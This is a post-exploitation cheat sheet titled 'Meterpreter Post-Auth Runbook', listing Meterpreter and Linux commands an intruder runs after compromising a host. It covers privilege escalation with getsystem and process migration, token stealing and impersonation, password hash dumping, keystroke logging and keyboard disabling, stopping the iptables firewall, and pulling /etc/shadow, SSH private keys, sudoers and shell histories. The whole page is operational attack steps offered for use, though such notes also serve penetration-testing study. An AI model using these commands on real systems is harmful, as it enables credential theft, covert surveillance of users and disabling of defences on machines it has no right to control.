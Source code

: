 # Meterpreter Post-Auth Runbook

Meterpreter Post-exploitation Modules ◇ > use post/windows/gather/enum\_logged\_on\_users ◇ Railgun - Meterpreter extension that allows direct access to Windows APIs ◇ IRB - ruby shell in meterpreter

Meterpreter Post Auth&#x20;

* Info gathering&#x20;
  * getuid&#x20;
  * getpid&#x20;
  * getsprivs&#x20;
  * sysinfo&#x20;
  * screenshot&#x20;
  * run winenum.rb&#x20;
  * run scraper.rb&#x20;
  * run checkvm&#x20;
  * run credscollect&#x20;
  * run get\_local\_subnets&#x20;
* Priv Esc&#x20;
  * ps then migrate&#x20;
  * getsystem&#x20;
* Tokens&#x20;
  * list\_tokens -u&#x20;
  * impersonate\_token&#x20;
  * steal\_token \[pid]&#x20;
  * rev2self&#x20;
* Retrieve passwords&#x20;
  * hashdump&#x20;
  * cachedump&#x20;
  * post/windows/gather/smart\_hashdump&#x20;
  * post/windows/gather/credentials/vnc&#x20;
* Session&#x20;
  * enumdesktops&#x20;
  * getdesktop&#x20;
  * setdesktop&#x20;
  * uictl disable keyboard&#x20;
* keylog&#x20;
  * keyscan\_start&#x20;
  * keyscan\_dump&#x20;
  * keyscan\_stop&#x20;
  * Nix Post Auth&#x20;
* Disable Firewall&#x20;
  * /etc/init.d/iptables save&#x20;
  * /etc/init.d/iptables stop&#x20;
  * iptables-save > root/firewall.rules&#x20;
  * iptables-restore < /root/firewall.rules&#x20;
* Files to pull&#x20;
  * /etc/passwd&#x20;
  * /etc/shadow OR /etc/security/shadow&#x20;
  * /etc/groups OR /etc/gshadow&#x20;
  * /home/_/.ssh/id_&#x20;
  * /etc/sudoers&#x20;
* User Information&#x20;
  * grep ^ssh /home/_/._hist __&#x20;
  * _grep ^telnet /home/_/._hist_&#x20;
  * grep ^mysql /home/_/._hist\*
